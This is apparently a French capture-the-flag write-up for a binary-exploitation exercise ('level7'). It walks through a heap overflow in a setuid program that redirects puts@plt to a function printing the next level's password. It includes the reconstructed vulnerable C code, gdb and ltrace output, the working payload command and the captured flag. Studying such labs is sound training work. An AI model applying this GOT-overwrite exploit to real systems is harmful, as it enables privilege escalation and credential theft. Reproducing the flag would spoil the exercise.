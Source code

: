 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2024(level7) gid=2024(level7) groups=2024(level7),100(users)
/home/user/level7
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level7 :

```bash
$ ./level7
Segmentation fault (core dumped)
$ ./level7 da
Segmentation fault (core dumped)
$ ./level7 da b
~~
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=41a50d3a-4820-48a6-93d8-d314911b1399) et en extrait une version probable du code :

```c
struct file {
    int id;
    void *ptr;
};

char string[80];

void m() {
    printf("%s - %d\n", string, time(0)); // <--4 string is printed with the content of .pass
    return;
}

int main(int argc, char **argv)
{
    struct file *buffer1;
    struct file *buffer2;

    buffer1 = malloc(8);
    buffer1->id = 1;
    buffer1->ptr = malloc(8);

    buffer2 = malloc(8);
    buffer2->id = 2;
    buffer2->ptr = malloc(8);

    strcpy(buffer1->ptr, argv[1]); // <---------1 buffer overflow possible here, overflow used to write on buffer2->ptr and make it point to puts@plt
    strcpy(buffer2->ptr, argv[2]); // <---------2 now it means whatever I write here becomes the new address of puts(), we give it the address of m()

    fgets(string, 68, fopen("/home/user/level8/.pass", "r"));

    puts("~~"); // <----------------------------3 above, .pass is stored in string, and then, since puts() dynamic link is changed, it calls m()
    
    return 0;
}
```

Je note :

- l'usage de `strcpy()` qui peut présenter une vulnérabilité comme dans le level précédent.
- l'usage de `fgets()` qui à priori est comme précédamment, non exploitable.
- un `puts()` sans importance, à priori.

Je travaille, comme dans le précédent niveau, avec la `heap` étant donné la présence des `malloc()`.

Pour comprendre ce que je dois fabriquer comme payload, je décerne ce que fait le binaire :

- Créé deux structure "fichier" de 8 bytes qui contiennent un `id` les représentants, ainsi qu'un pointeur sur la `heap` pointant vers eux.
- Copie dans chacun de ces "fichier" (avec leurs pointeurs) le contenu du premier et second argument respectivement.
- Tente d'ouvrir le fichier `.pass`, en lire les 68 premiers bytes, et les stock dans la variable global 'string'

Je note également :

- Il ne semble pas utiliser la variable `int` de cette structure, cependant elle servira peut-être dans l'exploit
- La fonction `m()` et son `printf()`, qui imprime la valeur de la globale `string`

Après réflexion et en analysant un point de vulnérabilité possible, il me semble évident que `puts()` n'est en fait pas sans importance comme annoncé plus haut. J'en arrive à cette conclusion car c'est la dernière exécution dans le programme avant sa fin, et après avoir obtenu la valeur contenu dans le `.pass`.

Je vais donc employer la même méthode que dans le précédent niveau, mon but va être de changer ce vers quoi le `plt` de `puts()` pointe, afin de le faire pointer vers `m()` et que le `printf()` m'imprime la valeur de `string` après que celui-ci ai été actualisé pour contenir le `.pass`.

Ma méthode pour réaliser cet exploit va être la suivante :

- Au moment du `strcpy()` pour le `buf1->ptr`, je dois lui donner en argument un payload infecté qui overflow la `heap` jusqu'à atteindre la position de `buf2->ptr`.
- Une fois la position du deuxième buffer atteint, je lui fais valoir l'adresse `plt` de `puts()`
- Au moment du `strcpy()` pour le `buf2->ptr`, je manipule alors ce que l'adresse `plt` de `puts()` vaut, et il me suffit de lui faire résoudre à l'adresse de la fonction `m()`.

Je commence par trouver l'adresse de la fonction `m()` avec `gdb` :

```h
$ gdb level7
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp <----- ici
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
    ...
```

Je trouve `m()` -> `0x080484f4`.

Je cherche maintenant l'adresse `plt` de `puts()` :

```h
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928 <------- ici
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
```

Je trouve `puts` -> `0x8049928`.

Il me faut maintenant trouver l'offset à appliquer afin de faire pointer `buf2->ptr` sur `buf1->ptr`.

Comme pour le level 6, j'utilise `ltrace` afin de trouver la distance à "parcourir" dans la `heap` avant d'overflow :

```bash
$ ltrace ./level7 da b
__libc_start_main(0x8048521, 3, 0xbffff7f4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                               = 0x0804a008 (buf1 = malloc(8))
malloc(8)                               = 0x0804a018 (buf1->ptr = malloc(8))
malloc(8)                               = 0x0804a028 (buf2 = malloc(8))
malloc(8)                               = 0x0804a038 (buf2->ptr = malloc(8))
strcpy(0x0804a018, "da")                = 0x0804a018
strcpy(0x0804a038, "b")                 = 0x0804a038
fopen("/home/user/level8/.pass", "r")   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Avec ces informations je trouve le padding en faisant le calcul suivant :

- Je pars de `buf1->ptr` => `0x0804a018`
- J'arrive à `buf2` => `0x0804a028`
- Je trouve [16 bytes](https://www.calculator.net/hex-calculator.html?number1=0804a028&c2op=-&number2=0804a018&calctype=op&x=Calculate)
- Je dois ajouter 4 bytes pour l'`int` qui est déclaré dans la structure
- `16 + 4 = 20` bytes
- J'atteint donc normalement `buf2->ptr`

---

On note l'importance d'inclure les 4 bytes de l'`int` en observant dans la `ltrace` ci-dessus que :

`malloc(8) = 0x0804a028 (buf2 = malloc(8))`
et
`malloc(8) = 0x0804a038 (buf2->ptr = malloc(8))`

Sont séparé de 0x10 (soit 16 bytes). L'adresse que l'on trouve en deuxième (`0x0804a038`) représente le haut des 8 bytes alloués à `buf2->ptr`.
Son adresse avant l'allocation est donc de `0x0804a038` - `0x00000008` soit `0x0804a030`.

Si j'ajoute à l'adresse de `buf2` (`0x0804a028`) 4 bytes (pour représenter `buf2->id`) j'atteint `0x0804a02c` (soit l'adresse de `buf2->ptr`)
et si j'ajoute à nouveau 4 bytes, j'atteint le début des 8 bytes alloués pour `buf2->ptr`, soit `0x0804a030` !

---

Je peux maintenant construire mon payload avec ces 3 informations :

- Adresse de `m()` => `0x080484f4` => `\x08\x04\x84\xf4"[::-1]` en python
- Adresse de `puts@plt` => `0x8049928` => `\x08\x04\x99\x28"[::-1]` en python
- Padding pour `buf1->ptr` => 20 bytes => `\x90" * 20`

Voici à quoi pourrait ressembler le payload :

```python
python -c 'print("\x90" * 20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])
```

Pour résumer, le premier argument va donner une valeur à `buf1->ptr`, je lui donne la valeur de 20 bytes de padding en `NOP` (`\x90`) afin qu'il pointe sur l'adresse de `buf2->ptr`, et je fais équivaloir cette dernière à l'adresse de `puts@plt`.

Le deuxième argument va lui donner une valeur à `buf2->ptr` qui ici, en fait, pointe sur `puts@plt`. Nous allons donc, comme le niveau précédent, changer ce vers quoi pointe `puts()`.

Cela aura pour effet qu'au moment du `fgets()`, la variable globale `string` sera modifiée, puis `m` sera apppelé par le code pensant appeler `puts()`, et imprimera cette valeur.

J'essaye mon payload :

```bash
$ ./level7 `python -c 'print("\x90"*20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1712765813
```

On voit ici que le `printf()` à bien été imprimé, et je comprend maintenant l'utilité du `time(0)` dans ce dernier. Il permet de vérifier que le projet à bien été réalisé par nos soins !

Je regarde la valeur d'`epoch` actuelle sur [epochconverter.com](https://www.epochconverter.com/) et trouve : `1712765926`
Je soustrais par curiosité les deux valeurs : `1712765926 - 1712765813 = 113`.

Il s'est donc écoulé 113 secondes depuis l'exécution de mon payload et l'écriture du calcul ci-dessus :)



